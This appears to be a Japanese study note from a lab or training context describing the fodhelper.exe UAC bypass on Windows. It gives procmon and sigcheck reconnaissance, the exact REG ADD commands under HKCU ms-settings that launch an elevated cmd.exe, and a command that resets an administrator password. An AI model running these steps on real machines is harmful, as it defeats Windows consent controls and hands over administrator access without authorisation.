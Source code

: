 # UACByPass

### fodhelper.exe

オペレーティングシステムの言語変更を管理するMicrosoftのサポートアプリケーションであるfodhelper.exeを利用したUACbyPass.

「アプリと機能」のWindows設定画面で「オプション機能の管理」オプションを選択するたびに、このアプリケーションが起動する。

<img src="img/Windows/UACByPass/image-20230106075428758.png" alt="image-20230106075428758" style="zoom:67%;" />

* アプリケーションマニフェスト（プログラム起動時にOSがそのプログラムをどのように処理するかを示す情報を含む XML ファイル）の検査をする

  ```cmd
  cd C:\Tools\privilege_escalation\SysinternalsSuite
  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  ```

  ![image-20230106075632722](img/Windows/UACByPass/image-20230106075632722.png)

  ![](img/UACByPass/image-20230106075632722-1673224263122-2.png)

  * administrator アクセストークンが必要
  * autoelevate フラグが true に設定されているため、管理者ユーザーに同意を求めることなく、実行ファイルが自動的に高信頼性に昇格することが可能

* procmon（Sysinternals suite）で「NAME NOT FOUND」のレジストリを調査する

  * procmonを起動したのち、fodhelper.exeを再起動する

  * Filterで絞り込みを行う

    ![image-20230106080656214](img/Windows/UACByPass/image-20230106080656214.png)

    ![](img/UACByPass/image-20230106080656214-1673224302083-5.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーが存在しないことがわかる。

    ![image-20230106080749582](img/Windows/UACByPass/image-20230106080749582.png)

    ![](img/UACByPass/image-20230106080749582-1673224338455-8.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    ![image-20230106080943088](img/Windows/UACByPass/image-20230106080943088.png)

    ![](img/UACByPass/image-20230106080943088-1673224359152-11.png)
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  ![image-20230106081615681](img/Windows/UACByPass/image-20230106081615681.png)

  ![](img/UACByPass/image-20230106081615681-1673224378809-14.png)

* procmonのフィルターを「SUCCESS」に変更する。

  ![image-20230106081707074](img/Windows/UACByPass/image-20230106081707074.png)

  ![](img/UACByPass/image-20230106081707074-1673224399075-17.png)

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる

  ![image-20230106081939053](img/Windows/UACByPass/image-20230106081939053.png)

  ![](img/UACByPass/image-20230106081939053-1673224430178-20.png)

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
  

